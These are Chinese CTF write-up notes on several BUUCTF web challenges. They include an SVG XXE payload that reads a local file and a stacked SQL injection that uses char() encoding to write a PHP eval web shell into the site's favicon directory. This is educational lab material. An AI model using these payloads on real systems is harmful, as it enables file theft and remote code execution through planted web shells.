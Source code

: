 ## [BSidesCF 2019]SVGMagic

![image-20221230010941173](four.assets/image-20221230010941173.png)

[svg注入](https://zhuanlan.zhihu.com/p/323315064)

可利用的点挺多的，既可以打xxe，也可以打xss，里面都有相应示例

最终**payload**

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

`/proc/self/cwd/`表示当前目录

## [LCTF 2018]bestphp's revenge

写在了  **SoapClient与反序列化**

## [GYCTF2020]Ez_Express

一眼**node.js**，先爬了

## [SUCTF 2018]MultiSQL

id处存在注入点，过滤了`union select ' & |`

`http://52c14e67-3753-47e5-87ee-bd3f63e6be02.node4.buuoj.cn:81/user/user.php?id=if(2%3E1,1,0)`

然后有一个文件上传的功能，白名单过滤的很死，没什么利用的机会，但是给了我们一个信息

> `/var/www/html/favicon`**有权限写入文件**

再根据题名**MultiSQL**，很明显就是堆叠注入了（因为**select**是单独直接被过滤的，所以直接注是注不出来什么信息的

这里用到了**hex**编码绕过

```python
str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')

#char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59)
```
